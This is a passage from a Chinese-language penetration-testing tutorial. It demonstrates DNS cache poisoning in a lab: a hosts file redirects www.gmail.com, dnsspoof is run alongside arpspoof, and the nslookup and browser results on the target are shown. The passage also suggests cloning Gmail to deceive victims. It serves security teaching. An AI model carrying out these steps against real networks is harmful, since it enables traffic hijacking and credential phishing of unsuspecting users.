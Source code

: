 ```
root@kali:~# **cat hosts.txt**
192.168.20.9 www.gmail.com
```

### 使用 Dnsspoof

在 Linux 目标机和默认网关之间重新启动 Arpspoof，反之亦然，正如使用 ARP 缓存中毒伪装默认网关中所讨论的那样。现在我们可以开始使用 Dnsspoof DNS 伪造工具发送 DNS 缓存中毒尝试，如下所示。

```
root@kali:~# **dnsspoof -i eth0**❶ **-f hosts.txt**❷
dnsspoof: listening on eth0 [udp dst port 53 and not src 192.168.20.9]
192.168.20.11 > 75.75.75.75.53:  46559+ A? www.gmail.com
```

我们指定要使用的网络接口❶，并将 Dnsspoof 指向我们刚刚创建的文件（*hosts.txt*）❷，告诉它需要伪造哪些值。

一旦 Dnsspoof 运行，当我们在 Linux 目标机上执行`nslookup`命令时，返回的 IP 地址应该是我们的 Kali 机器的地址，如示例 7-5 所示。这显然不是 Gmail 的真实 IP 地址。

示例 7-5. 攻击后的 Nslookup

```
georgia@ubuntu:~$ **nslookup www.gmail.com**
Server: 75.75.75.75
Address: 75.75.75.75#53

Non-authoritative answer:
Name:     www.gmail.com
Address: 192.168.20.9
```

为了演示这个攻击，设置一个网站来引导流量。Kali 中的 Apache 服务器默认会为任何访问者提供一个 “It Works” 页面。我们可以更改文件夹 */var/www* 中 *index.html* 文件的内容，但默认的 “It Works” 文本对于我们的目的来说已经足够。

现在，如果我们从 Ubuntu 目标浏览 *[`www.gmail.com/`](http://www.gmail.com/)*，网址栏应该显示 *[`www.gmail.com/`](http://www.gmail.com/)*，但实际上我们访问的是 Kali 机器的网页服务器，如 图 7-11 所示。我们甚至可以通过克隆实际的 Gmail 网站（或攻击者选择的任何其他网站），让用户无法察觉差异，从而使这个攻击更加有趣。

![这不是 Gmail。](img/httpatomoreillycomsourcenostarchimages2030376.png.jpg)图 7-11. 这不是 Gmail。
